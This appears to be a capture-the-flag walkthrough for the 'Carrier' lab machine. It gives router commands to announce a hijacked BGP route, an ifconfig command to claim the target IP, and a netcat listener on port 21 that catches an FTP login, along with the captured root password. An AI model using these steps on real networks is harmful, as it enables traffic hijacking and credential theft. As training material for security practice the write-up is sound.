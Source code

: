 # Alternative way to exploit Carrier

## Getting SSH Password by adding an Interface

After getting access to the first router _(AS100)_, there is another way to gain access to the main box instead of the **BGP Hijack attack**.
By adding an IP to the interfaces of the router, the FTP connection will be sent directly to this device.

Creating the route as before:
```markdown
r1# configure terminal

r1(config)# router bgp 100

r1(config-router)# network 10.120.15.0/25

r1# clear ip bgp * out
```

Creating interface:
```markdown
ifconfig eth2 10.120.15.10 netmask 255.255.255.128
```

Waiting for FTP connection on port 21:
```markdown
nc -lvnp 21
```

After a minute the FTP connection will start and by sending the correct FTP codes, the password will be displayed:
```markdown
Connection from [10.78.10.2] port 21 [tcp/*] accepted (family 2, sport 47038)

USER root
331
PASS BGPtelc0rout1ng
331
ACCT put secretdata.txt
(...)
```
